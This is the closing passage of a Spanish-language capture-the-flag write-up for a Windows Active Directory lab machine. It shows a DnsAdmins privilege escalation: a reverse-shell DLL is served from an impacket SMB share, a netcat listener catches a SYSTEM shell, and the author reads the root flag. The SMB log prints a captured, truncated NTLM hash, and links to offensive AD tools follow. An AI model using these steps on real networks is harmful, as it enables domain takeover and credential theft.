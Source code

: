 * Observa que después de reiniciar el **servicio DNS**, hubo una conexión a nuestro **servidor SMB** que parece está ejecutando el **archivo DLL** que tiene nuestra **Reverse Shell**:
```bash
impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
.
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (192.168.10.5,49702)
[*] AUTHENTICATE_MESSAGE (DORAEMON\WIN-VRU3GG3DPLJ$,WIN-VRU3GG3DPLJ)
[*] User WIN-VRU3GG3DPLJ\WIN-VRU3GG3DPLJ$ authenticated successfully
[*] WIN-VRU3GG3DPLJ$::DORAEMON:aaaaaaaaaaaaaaaa:d75522782ff4a27cc3132124...
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smbFolder)
[*] Disconnecting Share(1:IPC$)
```

* Y observa la **netcat**:
```batch
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.5] 49703
Microsoft Windows [Versi�n 10.0.14393]
(c) 2016 Microsoft Corporation. Todos los derechos reservados.
.
C:\Windows\system32>whoami
whoami
nt authority\system
```
Estamos dentro.

Ya solo tenemos que buscar la última flag:
```batch
C:\Windows\system32>cd C:\Users\Administrador\Desktop
cd C:\Users\Administrador\Desktop
.
C:\Users\Administrador\Desktop>type root.txt
type root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://github.com/ropnop/kerbrute
* https://github.com/peass-ng/PEASS-ng/tree/master
* https://github.com/61106960/adPEAS/tree/main
* https://github.com/SpecterOps/BloodHound
* https://github.com/SpecterOps/SharpHound
* https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart
* https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/
* https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b
* https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html?highlight=dnsadmins#dnsadmins
